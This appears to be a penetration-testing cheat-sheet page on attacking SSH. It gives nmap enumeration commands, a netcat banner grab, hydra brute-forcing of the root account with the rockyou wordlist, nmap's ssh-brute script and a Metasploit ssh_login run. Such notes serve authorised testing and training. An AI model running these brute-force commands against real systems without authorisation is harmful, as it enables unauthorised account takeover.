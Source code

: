 ```yaml
---
description: >-
  The Secure Shell Protocol is a cryptographic network protocol for operating
  network services securely over an unsecured network. Its most notable
  applications are remote login and command-line executi
---
```


# SSH

{% hint style="info" %}
Default port: **22**
{% endhint %}

### Enum

```bash
# Get versions
nmap $IP -p 22 -sV -O

# See welcome msg
nc $IP 22

# Get algorithms
nmap $IP -p 22 --script ssh2-enum-algos

# Get public Key
nmap $IP -p 22 --script ssh-hostkey --script-args ssh_hostkey=full

# Weak passwords
nmap $IP -p 22 --script ssh-auth-methods --script-args="ssh.user=root"
```

## Bruteforce with hydra

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $IP ssh
```

## Common password with nmap

```bash
nmap $IP --script ssh-brute --script-args userdb=/path/to/users -p 22
```

## Metasploit

```bash
msfconsole
use auxiliary/scanner/ssh/ssh_login
set rhosts $IP
set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set verbose true
run
```
